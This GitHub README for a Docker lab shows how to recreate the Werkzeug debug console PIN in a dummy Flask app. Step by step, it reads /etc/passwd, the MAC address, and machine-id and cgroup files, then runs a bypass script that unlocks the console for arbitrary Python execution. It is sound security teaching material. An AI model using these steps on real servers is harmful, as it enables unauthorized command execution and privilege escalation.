 # Werkzeug Debug Console Pin Bypass
Werkzeug has a debug console that requires a pin by default. It's possible to bypass this with an LFI vulnerability or use it as a local privilege escalation vector. The debug console will lock after 10 invalid attempts which requires the server to be restarted for another 10 guesses.

The Werkzeug documentation warns users to **never** enable the debug console in production with or without a pin (https://werkzeug.palletsprojects.com/en/2.0.x/debug/#debugger-pin).

This repo provides a sample application to play with the `/console` endpoint on a dummy Flask application.

# How to use

1. Clone this repo
```
$ git clone https://wdahlenburg/werkzeug-debug-console-bypass
```

2. Build the Docker image
```
$ docker build -t werkzeug-debug-console:latest .
```

3. Run the Docker image
```
$ docker run -p 7777:7777 werkzeug-debug-console:latest
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.4:7777/ (Press CTRL+C to quit)
 * Restarting with stat
User: werkzeug-user
Module: flask.app
Module Name: Flask
App Location: /usr/local/lib/python3.9/site-packages/flask/app.py
Mac Address: 2485377892356
Werkzeug Machine ID: b'ea1fc30b6f4a173cea015d229c6b55b69d0ff00819670374d7a02397bc236523a57e9bab0c6e6167470ac65b66075388'

 * Debugger is active!
 * Debugger PIN: 118-831-072
```

Your server should be running on port 7777 at this point. The PIN will be displayed in the Docker logs, which is what you will be trying to recreate.


### Exploiting as a local privilege escalation

A scenario that could come up is that the Flask server is running under a certain user with privileges X. You are a local user on the system with privileges Y. You have the ability to access the same information that Werkzeug uses to generate the PIN for the user running the server. Successfully unlocking the console provides OS command injection as the user running the server.

At any point if you are unsure, you can reference the Docker logs to see the expected values for each parameter.

1. Open up a new terminal and log into Docker as some other user

```
$ docker ps                                            
CONTAINER ID   IMAGE                               COMMAND                  CREATED          STATUS          PORTS                                                                                                                                                                                          NAMES
9d0ff0081967   werkzeug-debug-console:latest       "python3 /app/server…"   16 minutes ago   Up 16 minutes   0.0.0.0:7777->7777/tcp, :::7777->7777/tcp

$ docker exec -u 0 -it 9d0ff0081967 /bin/bash
root@9d0ff0081967:/app#
```

2. Take a look at https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py for references
3. Identify the user running the server on port 7777
```
$ ps auxww | grep server
werkzeu+     1  0.0  0.1  34992 28072 ?        Ss   15:50   0:00 python3 /app/server.py
werkzeu+    10  0.0  0.1  35248 23780 ?        S    15:50   0:00 python3 /app/server.py
werkzeu+    11  0.0  0.1  35072 28276 ?        S    15:50   0:00 /usr/local/bin/python3 /app/server.py
werkzeu+    12  0.7  0.1 109316 25500 ?        Sl   15:50   0:08 /usr/local/bin/python3 /app/server.py
```
It's likely the werkzeu user is running the server, but the name is truncated.

```
$ cat /etc/passwd
...
werkzeug-user:x:1000:1000::/home/werkzeug-user:/bin/sh
```

4. Copy the `werkzeug-user` into the username field of the `werkzeug-pin-bypass.py` file.

5. Find the correct path to Flask
```
$ find / -name "app.py" 2>/dev/null
/usr/local/lib/python3.9/site-packages/flask/app.py
```

6. Update the `werkzeug-pin-bypass.py` file with this information. The location will be different if alternate Python versions or OS's are used.
7. Grab the Mac Address of the interface the server is hosting on:
```
$  python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import uuid
>>> str(uuid.getnode())
'2485377892356'
```

OR

```
$ cat /sys/class/net/eth0/address 
02:42:ac:11:00:04
root@9d0ff0081967:/app# python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> "".join("02:42:ac:11:00:04".split(":"))
'0242ac110004'
>>> print(0x0242ac110004)
2485377892356
```
9. Update the Mac address in the `werkzeug-pin-bypass.py` file.
10. In python3 run the following script to generate the machine id
```python3
machine_id = b""
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
    try:
        with open(filename, "rb") as f:
            value = f.readline().strip()
    except OSError:
        continue

    if value:
        machine_id += value
        break
try:
    with open("/proc/self/cgroup", "rb") as f:
        machine_id += f.readline().strip().rpartition(b"/")[2]
except OSError:
    pass

print(machine_id)
```
12. Update the machine id in the `werkzeug-pin-bypass.py` file.
13. Go ahead and run the werkzeug-pin-bypass.py on the attacking machine
```
$  python3 ./werkzeug-pin-bypass.py
Pin: 118-831-072
```

If all goes well you should have the same Pin as the one displayed in the Docker logs. If not, recheck your steps. If you are on an old version of Werkzeug, try changing the hashing algorithm to md5 instead of sha1.

The pin can be accepted at http://127.0.0.1:7777/console. Once the system is unlocked you can run any python commands you want.

# Credit
The original research was done here: https://www.daehee.com/werkzeug-console-pin-exploit/

The LFI vector is listed here: https://github.com/grav3m1nd-byte/werkzeug-pin
